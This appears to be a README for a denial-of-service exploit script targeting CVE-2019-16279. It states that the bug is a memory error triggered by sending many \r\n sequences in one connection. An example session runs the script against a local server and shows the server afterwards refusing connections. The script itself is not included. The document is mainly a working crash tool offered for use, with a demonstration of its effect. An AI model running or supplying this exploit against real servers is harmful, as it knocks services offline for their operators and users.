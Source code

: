 # CVE-2019-16279
CVE-2019-16279 dos
This bug exploit a memory error when sending too many \r\n in a single connexion.


Example
```
$ curl http://127.0.0.1:8080
HELLO!

$ ./CVE-2019-16279.sh 127.0.0.1 8080

$ curl http://127.0.0.1:8080

curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused
```
